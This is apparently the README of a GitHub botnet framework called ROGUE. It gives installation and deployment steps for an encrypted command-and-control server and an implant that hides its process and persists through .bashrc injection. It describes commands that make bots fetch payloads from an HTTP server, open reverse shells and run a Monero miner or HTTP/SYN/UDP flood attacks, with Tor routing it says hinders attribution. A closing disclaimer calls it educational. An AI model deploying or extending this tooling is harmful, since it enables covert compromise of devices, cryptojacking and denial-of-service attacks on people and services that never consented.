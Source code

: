 # r0gue

ROGUE is a manually-deployed peer-to-peer and command-and-control (C2) botnet framework built for secure multi-device orchestration. It supports encrypted communication using AES, with optional peer-to-peer fallback if the primary C2 is unreachable.  
ROGUE supports implants on Linux laptops, Raspberry Pi, Termux (Android), and iOS environments.

---

## Installation

To clone ROGUE from your Kali system, run:

```bash
git clone https://github.com/ekomsSavior/rogue.git
cd rogue
```

Install dependencies manually:

```bash
sudo apt update
sudo apt install python3 python3-pip
pip3 install pycryptodome
```

---

## File Structure

- `rogue_c2.py` – Encrypted command-and-control server
- `rogue_implant.py` – Bot implant for manual deployment with trigger handling, payload loader, and stealth logic
- `payloads/` – Folder containing executable modules such as:
  - `mine.py`: Real CPU-based cryptocurrency miner with pool config and resource control
  - `ddos.py`: Threaded DDoS engine supporting HTTP, TCP SYN, and UDP floods

---

## Usage

### Start the C2 Server

On your Kali controller machine:

```bash
python3 rogue_c2.py
```

### Deploy a Bot Implant

1. Copy `rogue_implant.py` to the target device.
2. Edit the `C2_HOST` variable in the script to match your controller’s IP.
3. Run the implant:

```bash
python3 rogue_implant.py
```

The implant will:
- Connect to the C2 server using AES-encrypted commands
- Attempt peer-to-peer fallback discovery if the C2 is unreachable
- Stealth itself using renamed process titles and hidden payload storage
- Persist by injecting itself into the target’s `.bashrc`

### Host Payloads

To serve payloads for bots to fetch:

```bash
cd payloads/
python3 -m http.server 8000
```
## Command Syntax

You can interact with connected bots using the terminal interface. Commands include:

```text
load_payload mine.py        # Instruct bot to download mine.py from payload server
run_payload mine.py         # Run the loaded mining script
reverse_shell               # Start reverse shell connection to C2 (must be listening on port 9001)
trigger_mine                # Instruct all bots to mine using mine.py
trigger_ddos                # Instruct all bots to launch DDoS using ddos.py
```

Tor Support (Optional)

Built into ddos.py, you can enable routing DDoS traffic through Tor SOCKS5 by setting: 

```bash
USE_TOR = True
```
This uses PySocks to route all flood traffic through 127.0.0.1:9050, the default local Tor proxy.

Install Tor + PySocks:

```bash
sudo apt install tor
pip3 install pysocks
```

Then start Tor:

```bash
sudo systemctl start tor@default
```

And run the DDoS module as usual:

```bash
python3 ddos.py trigger_ddos <target> <port> <duration> <threads> <mode>
```


---

### Reverse Shell

To receive a reverse shell connection:

```bash
nc -lvnp 9001
```

---

## Maintaining Bots

- ROGUE implants require Python3 and internet/network access
- Ensure `rogue_c2.py` is running to accept bot connections
- Keep your `payloads/` server online and accessible
- Update your payloads regularly for improved capabilities or evasion

---

## Payload Details

### `mine.py`

- Real CPU-based Monero miner
- Supports pool config, wallet input, and resource throttling
- Threaded hashing with runtime duration control

### `ddos.py`

- Supports multiple attack modes:
  - HTTP GET flood with user-agent rotation
  - UDP flood to arbitrary ports
  - TCP SYN flood
- CLI-style arguments allow flexible targeting from C2
- Tor Benefits in DDoS Mode
  - IP obfuscation via exit nodes
  - Makes attribution and detection harder during stress testing
  - Compatible with all http, tcp, and udp flood types

---

## Disclaimer

Do not deploy ROGUE on any device, network, or system you do not own or have explicit permission to operate on. Unauthorized use of this software may violate laws. This framework is provided for educational and ethical research purposes only. The developers assume no liability and provide this software without warranty or support.
